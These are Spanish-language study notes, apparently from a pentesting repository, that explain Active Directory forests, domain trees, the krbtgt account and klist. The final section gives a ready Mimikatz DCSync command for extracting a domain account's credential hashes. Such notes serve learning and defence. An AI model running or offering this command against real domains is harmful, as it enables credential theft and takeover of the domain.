 #### Arbol
Un árbol de dominio está compuesto por varios dominios que comparten un esquema y una configuración comunes, formando un espacio de nombres contiguo. Los dominios de un árbol también se vinculan entre sí mediante relaciones de confianza

#### Bosque
Es una construcción lógica que `Active Directory Domain Services` **(AD DS)** usa para agrupar uno o más dominios. Estos dominios almacenan objetos para los usuarios o grupos, y proporcionan servicios de autenticación.

----

**usuario krbtgt**: se crea automáticamente cuando promueve un nuevo dominio de Active Directory. Sin embargo, muchos administradores de AD no tienen suficiente conocimiento de esta cuenta, lo cual es muy importante desde el punto de vista de la seguridad y de toda la operación del dominio.

**klist**: Muestra una lista de los vales de Kerberos actualmente almacenados en caché.

### Quemando el bosque (DCSync Attack)
```
lsadump::dcsync /domain:prod.corp1.com /user:corp1$
```
